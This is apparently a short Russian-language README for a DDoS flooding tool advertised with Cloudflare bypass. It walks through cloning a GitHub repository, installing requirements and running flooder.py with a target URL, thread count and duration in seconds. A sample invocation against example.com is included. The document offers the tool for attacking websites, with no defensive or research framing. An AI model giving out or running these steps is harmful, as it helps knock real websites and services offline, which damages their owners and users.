 DDoS Tool + CFB
Как запускать:


1) Сначала клонируйте репозиций:

$ git clone https://github.com/Nukotzchan/Nukotzchan.git 

2) Перейдите каталог:

$ cd Nukotzchan 

3) Требования:

$ pip3 install -r requirements.txt

4) Запустить:

python3 flooder.py [цель] [поток] [время в секундах]

Например:

python3 flooder.py https://example.com/ 100 500
